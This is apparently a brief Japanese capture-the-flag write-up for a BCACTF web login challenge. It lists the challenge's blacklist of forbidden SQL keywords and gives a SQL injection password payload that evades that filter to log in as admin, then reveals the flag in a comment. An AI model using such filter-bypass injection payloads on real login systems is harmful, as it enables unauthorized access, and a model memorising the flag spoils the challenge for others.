

# Writeup

http://web.bcactf.com:49162/ にアクセスする。

`Movie-Login-1`と同様にログイン画面が表示される。



問題に添付されているjsonファイルは以下のようになっており、ここに書かれている文字は使えないようになっている。

```json
[
    "and",
    "1",
    "0",
    "true",
    "false",
    "/",
    "*",
    "=",
    "xor",
    "null",
    "is",
    "<",
    ">"
]
```

`username = admin`, パスワードを以下のようにしたらログインできた。

```
2' or '3' & '5
```

<!-- bcactf{gu3ss_th3r3s_n0_st0pp1ng_y0u!} -->
